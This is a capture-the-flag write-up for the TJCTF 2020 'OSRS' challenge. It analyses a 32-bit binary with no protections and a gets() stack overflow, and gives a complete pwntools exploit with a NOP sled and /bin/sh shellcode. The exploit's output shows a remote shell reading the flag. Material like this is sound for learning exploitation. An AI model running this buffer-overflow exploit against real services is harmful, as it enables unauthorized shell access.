

# TJCTF 2020

## OSRS

> 50
>
> My friend keeps talking about Old School RuneScape. He says he made a [service](osrs) to tell you about trees.
>
> I don't know what any of this means but this system sure looks old! It has like zero security features enabled...
> 
> `nc p1.tjctf.org 8006`
>
> Written by  KyleForkBomb

Tags: _pwn_ _x86_ _bof_ _remote-shell_ _gets_ _shellcode_ _nop-sled_


## Summary

No mitigations, 32-bit stack overflow, NOP sled, shellcode.

Retro.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

No mitigations.  Choose your own adventure.

    
### Decompile with Ghidra



Line 10, `gets` vulnerability.  `local_110` is large enough for shellcode.  

Line 14, leaks a stack address.  Although the challenge server _has like zero security features enabled..._, the location of the stack may change:

```
I don't have the tree -9332 :(
I don't have the tree -9204 :(
I don't have the tree -9188 :(
I don't have the tree -9220 :(
I don't have the tree -9156 :(
```

However, the general vicinity does not change much (remotely).

`local_110` is `0x110` bytes above the return address:

```
             int               EAX:4              <RETURN>
             undefined4        Stack[-0x10]:4     local_10
             undefined1        Stack[-0x110]:1    local_110                               
```

We just need to write out `0x110` bytes, the estimated location of the return address (+4 for the next stack line), a NOP sled, some shellcode, and cross our fingers.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./osrs')
p = remote('p1.tjctf.org', 8006)
buf = 0xffffdc2b # -9173
ret = buf + 0x110

#http://shell-storm.org/shellcode/files/shellcode-851.php
shellcode = b'\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x00'

payload  = 0x110 * b'A'
payload += p32(ret + 4)
payload += 100 * b'\x90'
payload += shellcode

p.recvuntil('Enter a tree type:')
p.sendline(payload)

p.interactive()
```

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8006: Done
[*] Switching to interactive mode

I don't have the tree -9188 :(
$ cat flag.txt
tjctf{tr33_c0de_in_my_she115}
```
